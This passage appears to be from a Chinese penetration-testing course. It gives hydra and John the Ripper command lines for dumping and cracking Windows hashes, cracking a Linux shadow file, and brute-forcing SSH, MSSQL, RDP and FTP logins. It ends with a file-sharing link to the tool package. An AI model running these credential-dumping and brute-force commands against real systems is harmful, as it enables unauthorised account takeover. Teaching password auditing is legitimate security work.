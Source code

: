 Windows hash 值破解一共有两步操作。

首先我们使用QuarkPwDump 工具读取（导出）Windows 账户密码hash 值，

**[****C:\Users\Administrator\Desktop\QuarksPwDump.exe -dhl -t JOHN -o win2008.hash****]**

然后在使用 john 工具破解

**[****john win2k8.hash --format=NT --wordlist=/root/dic/winPass.di****c]**

**[****john --show win2k8.hash --format=NT****]**

## ***linux** **口令破解**

linux 口令破解，也分远程破解和和本地破解。

远程破解主要是爆破ssh 服务，属于在线密码攻击。

本地破解需要拿到linux 的shadow 文件，进行hash 值破解，属于离线密码攻击

### **·破解ssh** **服务**

我们使用hydra 攻击破解ssh 服务，hydra 攻击已经自动集成在kali 虚拟机中。

命令如下：

**[hydra -l root -P ../dic/pwd.dic 192.168.1.150 ssh]**

**[****hydra -L /root/dic/user.dic -P /root/dic/winPass.dic 127.0.0.1 ssh -e nsr -vV -o 127.ssh****]**

 

### **·本地shadow** **文件破解**

我们可以使用john 工具，破解shadow 密码文件。

john 也是自动集成在kali 中。

john 破解的时候也需要准备一个字典。

**[john shadow]**

## *******网络服务口令破解**

在渗透测试中，我们同样会对服务的口令进行审计

### **·破解MSSQL** **口令**

**[hydra -l sa -P /root/dic/test_pwd.dic 192.168.1.150 mssql -vV]**

 

### **·破解RDP** **口令**

**[hydra -l administrator -P /root/dic/test_pwd.dic 192.168.1.150 rdp -vV]**

 

### **·破解FTP** **口令**

**[hydra -L /root/dic/test_user.dic -P /root/dic/test_pwd.dic 192.168.1.150 ftp -vV]**

 

> **这是我从整理出来的本节课使用到的软件包。**
>
> **链接：https://pan.baidu.com/s/1vZwxhejojJkhFCP9tRl8mg 提取码：ze1m** 